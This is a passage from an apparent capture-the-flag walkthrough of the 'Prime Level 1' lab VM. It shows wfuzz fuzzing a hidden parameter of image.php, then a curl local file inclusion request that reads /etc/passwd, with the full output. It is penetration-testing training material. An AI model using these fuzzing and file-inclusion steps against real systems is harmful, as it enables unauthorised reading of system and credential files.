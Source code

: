 ```
000000005:   200        6 L      17 W     197 Ch      "03"                                 
000000006:   200        6 L      17 W     197 Ch      "1"                                  
000000007:   200        6 L      17 W     197 Ch      "10"                                 
000000008:   200        6 L      17 W     197 Ch      "100"                                
000000009:   200        6 L      17 W     197 Ch      "1000"                               
000000010:   200        6 L      17 W     197 Ch      "123"                                
000000011:   200        6 L      17 W     197 Ch      "2"                                  
000000012:   200        6 L      17 W     197 Ch      "20"                                 
000000013:   200        6 L      17 W     197 Ch      "200"
```
----------------------------------------------------------------------------------------------------------------------------------------
```
root@kali:~# wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404 --hw 17 http://192.168.20.149/image.php?secrettier360=FUZZ
********************************************************
* Wfuzz 2.4 - The Web Fuzzer                           *
********************************************************

Target: http://192.168.20.149/image.php?secrettier360=FUZZ
Total requests: 949

===================================================================
ID           Response   Lines    Word     Chars       Payload                              
===================================================================

000000256:   200        13 L     43 W     328 Ch      "dev"         
```

### Browser (The Right Parameter)

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Prime%20Level%201/Images/d98830f11a4d6c5dc4c114621eaf46bf.png?raw=true)

### Curl

Next curl can be used to test for Local File Inclusion.

```
root@kali:~# curl http://192.168.20.149/image.php?secrettier360=/etc/passwd
<html>
<title>HacknPentest</title>
<body>
 <img src='hacknpentest.png' alt='hnp security' width="1300" height="595" /></p></p></p>
</body>
finaly you got the right parameter<br><br><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
```